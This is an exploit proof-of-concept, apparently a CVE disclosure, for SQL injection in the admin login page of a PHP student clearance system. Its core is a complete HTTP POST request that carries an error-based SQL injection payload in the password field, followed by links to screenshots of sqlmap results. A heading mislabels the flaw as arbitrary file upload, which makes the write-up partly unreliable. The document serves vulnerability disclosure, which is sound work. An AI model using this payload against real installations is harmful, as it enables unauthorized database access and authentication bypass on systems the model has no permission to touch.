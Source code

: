 ### Web-Based Student Clearance System - SQLi

### Date: 2024-02/26
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html
### Tested on: MacOs13.5 + phpstudy

# /Admin/login.php（Arbitrary File Upload）
/Admin/login.php SQL injection exists for parameter txtpassword

### Sample request POC #1

```
POST /Admin/login.php HTTP/1.1
Host: 127.0.0.1:8889
Content-Length: 63
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8889
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8889/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=b79eb3fij4s19ggvqglf3v59te; __insuarance__logged=1; __insuarance__key=LJNT16FPPDNJD0PJG1Z8
Connection: close

txtmatric_no=18/132010&txtpassword=18/132010	11' AND GTID_SUBSET(CONCAT(0x716b706271,(SELECT (ELT(4740=4740,1))),0x7176767a71),4740)-- UPVT&btnlogin=
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708933258450.jpg "Web-Based Student Clearance System")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708933305469.jpg "Web-Based Student Clearance System")

